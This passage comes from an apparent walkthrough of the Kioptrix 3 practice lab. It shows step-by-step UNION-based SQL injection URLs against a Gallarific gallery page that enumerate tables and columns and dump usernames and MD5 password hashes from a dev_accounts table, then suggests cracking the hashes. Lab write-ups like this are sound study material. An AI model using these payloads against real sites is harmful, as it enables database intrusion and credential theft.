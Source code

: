 * information_schema
* gallery
* mysql

# [](#header-4)Tables in the Gallery Database

The `gallery` database looks pretty relevant, lets extract the tables by altering our query again, note the use of the `distinct` operator to prevent the extracted data from being truncated by Gallarific:

`hXXp://kioptrix3.com/gallery/gallery.php?id=null+union+select+1,group_concat(distinct(table_name)),3,4,5,6+from+information_schema.columns+where+table_schema+=+'gallery'--+`

* dev_accounts
* gallarific_comments
* gallarific_galleries
* gallarific_photos
* gallarific_settings
* gallarific_stats
* gallarific_users

# [](#header-4)Columns in the dev_accounts Table

The `dev_accounts` table doesn't look to be a built in table for gallarific, definitely worth investigating further.

`hXXp://kioptrix3.com/gallery/gallery.php?id=NULL+union+select+1,group_concat(table_name,0x3a,column_name),3,4,5,6+from+information_schema.columns+where+table_name+=+%27dev_accounts%27--+`

* id
* username
* password

# [](#header-4)Extract the Desired Information

All three of those things sound pretty useful! Lets modify the query again to extract the data in those fields.

`hXXp://kioptrix3.com/gallery/gallery.php?id=NULL+union+select+1,group_concat(id,0x3a,username,0x3a,password),3,4,5,6+from+dev_accounts--+`

* 1:dreg:0d3eccfb887aabd50f243b3f155c0f85
* 2:loneferret:5badcaf789d3d1d09794d8f021f40f0e

Run those MD5 hashes through [crackstation](https://crackstation.net/) and Robert's your fathers brother.
